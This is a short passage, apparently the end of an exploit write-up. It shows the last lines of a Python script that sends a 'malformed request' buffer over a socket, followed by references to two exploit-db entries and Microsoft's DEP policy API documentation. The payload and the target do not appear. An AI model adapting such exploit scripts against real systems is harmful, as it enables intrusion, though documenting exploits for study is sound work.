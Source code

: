 ```python
    
print "[*] Sending malformed request..."
s.send(buf)

print "[!] Exploit has been sent!\n"
s.close()
```

# References

### c1
https://www.exploit-db.com/exploits/30032

### c2
https://www.exploit-db.com/exploits/24944

### c3
https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-setprocessdeppolicy

